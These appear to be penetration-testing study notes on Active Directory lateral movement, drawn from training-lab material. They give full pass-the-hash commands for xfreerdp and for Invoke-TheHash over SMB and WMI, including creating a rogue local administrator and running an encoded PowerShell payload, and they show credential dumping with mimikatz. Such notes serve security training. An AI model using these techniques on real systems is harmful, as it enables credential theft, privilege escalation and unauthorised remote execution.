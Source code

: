 <u>XFreeRDP</u>:
We should enable `Restricted Admin Mode` first:
```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Then we should spawn the GUI: `xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`


 <u>Invoke-TheHash with SMB</u>:
 ```powershell-session
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```

<u>Invoke-TheHash with WMI</u>:
```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e ..."

[+] Command executed with process id 520 on DC01
```
####  Overpass the Hash (abuse NTLM user hash to gain a full TGT)

With _overpass the hash_, we can "over" abuse an NTLM user hash to gain a full Kerberos _Ticket Granting Ticket_ (TGT). Then we can use the TGT to obtain a _Ticket Granting Service_ (TGS). To demonstrate this, let's assume we have compromised a workstation (or server) that _jen_ has authenticated to. We'll also assume that the machine is now caching their credentials (and therefore, their NTLM password hash).

To simulate this cached credential, we will log in to the Windows 10 CLIENT76 machine as _jeff_ and run a process as _jen_, which prompts authentication. The simplest way to do this is to right-click the Notepad icon on the desktop then shift-left click "show more options" on the popup, yielding the options in the screenshot.

![Figure 2: Enabling extra options](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/ad_lat_movement/e3aac4ec66c2a9b0a07b7160c9a3ffae-runas1.png)

From here, we enter **jen** as the username along with the associated password, which will launch Notepad in the context of that user. After successful authentication, _jen_'s credentials will be cached on this machine. We can validate this with the **sekurlsa::logonpasswords** command from **mimikatz** after having spawned an Administrative shell. The command will dump the cached password hashes.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
